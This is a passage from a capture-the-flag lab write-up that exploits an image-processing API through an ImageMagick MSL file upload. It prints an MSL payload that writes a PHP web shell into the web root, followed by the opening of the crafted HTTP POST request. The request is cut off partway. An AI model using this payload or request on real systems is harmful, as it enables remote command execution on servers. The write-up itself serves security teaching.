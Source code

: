 ![](images/Pasted%20image%2020250207173933.png)
That does work. I’ll want to upload a file that will be temporarily written to /tmp/php* by PHP. To do that, I’ll use a multipart form data by setting the Content-Type header. By giving it filename and Content-Type attributes, PHP will handle it as a file.

The file will be a modified version of what’s in the blog post:
```
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
<write filename="info:/var/www/html/intentions/storage/app/public/0xdf.php" />
</image>
```
By writing to /var/www/html/intentions/storage/app/public/, I can expect to find the file in /storage/. I could also try the animals directory, but it doesn’t work (www-data doesn’t have write access).
Now I’ll edit the request headers to add form data for a file upload. My full payload looks like:
```
POST /api/v2/admin/image/modify?path=vid:msl:/tmp/php*&effect=abcd HTTP/1.1
Host: 10.10.11.220
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/117.0
X-XSRF-TOKEN: eyJpdiI6IjVBa2tJN0RvMUNLVlBvRzhaaFhpTWc9PSIsInZhbHVlIjoidW9hUmFITGZsWUQ5NVYyVjcvNlFkc0hQVk9qc0dFTEUrRUFkd1ZEdlFxUHZ2VmlVcitjRlZqMC9saXFCTmt2WkVvQ2Fzb1FmVXMvWkZWcG16SUh4c2hNTWU3aFpaSnEwZURXdWRuTVd4ZDBrWkIrSTVzZlJkLzBJLzJHcyszaGQiLCJtYWMiOiJlM2U1ZTFhNDgzYmQ2ZGExYjkxOWZkZjcwMGJiZTQzMGUyNzY5MmU0NDAzZDVkNjgyNTA1NTE4YWFiMzJjZjE3IiwidGFnIjoiIn0=
```